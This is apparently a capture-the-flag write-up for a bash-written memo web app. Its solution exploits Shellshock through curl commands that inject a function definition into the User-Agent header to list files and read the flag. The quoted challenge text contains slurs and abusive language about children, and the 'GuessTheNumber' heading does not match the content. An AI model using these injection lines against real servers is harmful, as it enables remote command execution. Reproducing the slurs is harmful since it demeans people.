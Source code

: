# GuessTheNumber

## Problem

"How did I end up here?" is the only question you can think of since you've become a high school teacher. Let's face it, you hate children. Bunch of egocentric retards. Anyway, you are not going to take it anymore. It's time to have your little midlife crisis right in the face of these fuckers.

Good thing that you're in the middle of some project days and these little dipshits wrote a simple message storing web application. How cute. It's written in bash... that's... that's... aw- no... bashful. You've got the source, you've got the skills. 0wn the shit out of this and show them who's b0ss.

[Challenge](https://school.fluxfingers.net:1503/) (up as of 25 Oct, 2015)
[Source](bashful.tar.bz2)

## Solution

Credit: [@emedvedev](https://github.com/emedvedev)

**Note**: we'll be taking a shortcut not originally intended by the challenge developers, so if you'd like to know how to properly exploit a website written in bash (no, grandson, we don't normally do that here in 2015, don't be frightened), find another write-up.

The site in question is a memo service: it gives you a `sessid` and lets you write memos, escaping special chars. There's also a `DEBUG` parameter, a vulnerability allowing you to mess with environment variables, and the `sessid` itself could be exploited, too, so there's probably a million ways to solve it. Well, disregard all that: it's written in Bash, so why try hard when you have [Shellshock](https://en.wikipedia.org/wiki/Shellshock_(software_bug))?

```
$ curl -H "User-Agent: () { :; }; /bin/ls" https://school.fluxfingers.net:1503/
404.sh
flag
home.html
home.sh
index.sh

$ curl -H "User-Agent: () { :; }; /bin/cat flag" https://school.fluxfingers.net:1503/
flag{as_classic_as_it_could_be}
```

Done.

Again, that was not an intended solution, but there's still something to learn here: even if you're as security-conscious as most CTF organizers, eventually there _will_ be an attack vector you neglected, more often than not a stupidly simple one. Pay attention to the little things, be vigilant and go patch your Bash. Right now.
